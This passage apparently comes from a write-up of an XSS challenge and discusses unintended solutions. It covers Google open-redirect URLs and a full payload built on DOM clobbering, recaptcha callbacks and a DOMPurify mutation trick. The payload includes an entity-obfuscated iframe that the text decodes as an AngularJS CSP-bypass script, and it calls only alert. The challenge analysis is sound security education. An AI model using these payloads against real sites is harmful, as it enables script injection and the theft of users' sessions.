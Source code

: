 I was aware of google open redirect but I didn't notice a subtle difference. When I tried google open redirect, it returned 200 in that case and used client side redirect: https://www.google.com/url?q=https%3A%2F%2Ftech-blog.cymetrics.io&sa=D&sntz=1&usg=AFQjCNHyq6urHn6HLwj8RP09GANAlymZug

So I thought it was impossible to leverage this open redirect.

But for some other cases, it returns 302: https://www.google.com/url?sa=t&url=http://example.org/&usg=AOvVaw1YigBkNF7L7D2x2Fl532mA

Anyway, I didn't fix this unintended in the end because I don't have a good solution at the moment.

### Unintended #4 by @lbrnli1234

Another dope unintended has been found:

``` js
https://aszx87410.github.io/xss-challenge/notes/?name=&content=<p class=g-recaptcha data-sitekey=x data-error-callback=reloadRecaptchaScript></p>
<p class=g-recaptcha data-sitekey=x data-error-callback=reloadRecaptchaScript></p>
<p class=g-recaptcha data-sitekey=x data-error-callback=loadData></p>
<form></form>
<form id=defaultOptions><img id=allowDOM></form>
<form name=scripts>
<input id=undefined src='https://www.google.com/recaptcha/../complete/search?client=hp&q=https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.0/purify.min.js%23&callback=loadScript'>
<img id=undefined src='https://www.google.com/recaptcha/../jsapi?callback=loadData'>
</form>
<form><math><mtext></form><form><mglyph><style></math><iframe srcdoc='
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3d;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x63;&#x64;&#x6e;&#x6a;&#x73;&#x2e;&#x63;&#x6c;&#x6f;&#x75;&#x64;&#x66;&#x6c;&#x61;&#x72;&#x65;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x61;&#x6a;&#x61;&#x78;&#x2f;&#x6c;&#x69;&#x62;&#x73;&#x2f;&#x64;&#x6f;&#x6d;&#x70;&#x75;&#x72;&#x69;&#x66;&#x79;&#x2f;&#x2e;&#x2e;&#x25;&#x32;&#x66;&#x70;&#x72;&#x6f;&#x74;&#x6f;&#x74;&#x79;&#x70;&#x65;&#x2f;&#x31;&#x2e;&#x37;&#x2e;&#x32;&#x2f;&#x70;&#x72;&#x6f;&#x74;&#x6f;&#x74;&#x79;&#x70;&#x65;&#x2e;&#x6a;&#x73;&#x22;&#x3e;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#xa;&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3d;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x63;&#x64;&#x6e;&#x6a;&#x73;&#x2e;&#x63;&#x6c;&#x6f;&#x75;&#x64;&#x66;&#x6c;&#x61;&#x72;&#x65;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x61;&#x6a;&#x61;&#x78;&#x2f;&#x6c;&#x69;&#x62;&#x73;&#x2f;&#x64;&#x6f;&#x6d;&#x70;&#x75;&#x72;&#x69;&#x66;&#x79;&#x2f;&#x2e;&#x2e;&#x25;&#x32;&#x66;&#x61;&#x6e;&#x67;&#x75;&#x6c;&#x61;&#x72;&#x2e;&#x6a;&#x73;&#x2f;&#x31;&#x2e;&#x30;&#x2e;&#x31;&#x2f;&#x61;&#x6e;&#x67;&#x75;&#x6c;&#x61;&#x72;&#x2e;&#x6a;&#x73;&#x22;&#x3e;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#xa;&#x3c;&#x64;&#x69;&#x76;&#x20;&#x6e;&#x67;&#x2d;&#x61;&#x70;&#x70;&#x20;&#x6e;&#x67;&#x2d;&#x63;&#x73;&#x70;&#x3e;&#x7b;&#x7b;&#x24;&#x6f;&#x6e;&#x2e;&#x63;&#x75;&#x72;&#x72;&#x79;&#x2e;&#x63;&#x61;&#x6c;&#x6c;&#x28;&#x29;&#x2e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x24;&#x6f;&#x6e;&#x2e;&#x63;&#x75;&#x72;&#x72;&#x79;&#x2e;&#x63;&#x61;&#x6c;&#x6c;&#x28;&#x29;&#x2e;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x64;&#x6f;&#x6d;&#x61;&#x69;&#x6e;&#x29;&#x7d;&#x7d;&#x3c;&#x2f;&#x64;&#x69;&#x76;&#x3e;
'></iframe>
```

The content of `srcdoc` is the classic angularJS CSP bypass payload we mentioned

``` html
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%2fprototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%2fangular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>｛{$on.curry.call().alert($on.curry.call().document.domain)}}</div>
```
